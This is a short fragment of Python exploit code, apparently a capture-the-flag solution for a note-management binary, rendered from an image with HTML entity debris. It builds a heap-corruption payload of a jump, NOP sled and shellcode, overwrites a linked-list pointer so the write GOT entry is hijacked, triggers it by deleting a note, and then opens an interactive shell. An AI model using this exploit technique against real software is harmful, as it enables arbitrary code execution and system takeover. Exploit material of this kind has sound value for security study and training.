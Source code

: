 #&nbsp;overwrite&nbsp;the&nbsp;pointer&nbsp;of&nbsp;the&nbsp;linked&nbsp;list
payload&nbsp;=&nbsp;PADDING(JMP06&nbsp;+&nbsp;NOPS(6)&nbsp;+&nbsp;SHELLCODE,&nbsp;NOTE_SIZE&nbsp;-&nbsp;CONTENT_OFFSET)
payload&nbsp;+=&nbsp;zio.l32(second_note)&nbsp;+&nbsp;zio.l32(WRITE_GOT&nbsp;-&nbsp;8)&nbsp;+&nbsp;zio.l32(first_note&nbsp;+&nbsp;CONTENT_OFFSET)
io.writelines([&#39;4&#39;,&nbsp;&#39;0&#39;,&nbsp;payload])
sleep(1)
#&nbsp;trigger&nbsp;by&nbsp;delete&nbsp;note
io.writelines([&#39;5&#39;,&nbsp;&#39;%08x&#39;&nbsp;%&nbsp;second_note])
io.interact()</pre>
